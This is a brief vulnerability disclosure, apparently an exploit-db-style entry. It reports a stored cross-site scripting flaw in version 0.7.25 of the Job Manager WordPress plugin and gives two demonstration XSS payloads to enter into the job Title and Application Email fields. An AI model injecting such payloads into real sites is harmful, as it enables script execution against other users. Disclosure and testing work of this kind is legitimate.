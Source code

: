 # Exploit Title: WrodPress  Plugin Job Manager —— Stored Cross-Site Scripting
# Exploit Author: Thinkland Security Team
# Vendor Homepage: https://wordpress.org/plugins/job-manager/
# Version :  V 0.7.25
# Vulnerability Type: Stored Cross-Site Scripting
# Tested on Windows 10 、XAMPP
# Vulnerability proof：  
1. Job Manager 》Add Job 》Title and Application Email ,insert the xss payload <img src=1 onerror=alert(3)> and "OnMoUsEoVeR=prompt(1)//
![image](https://github.com/BigTiger2020/word-press/blob/main/Job%20Manager.gif)  

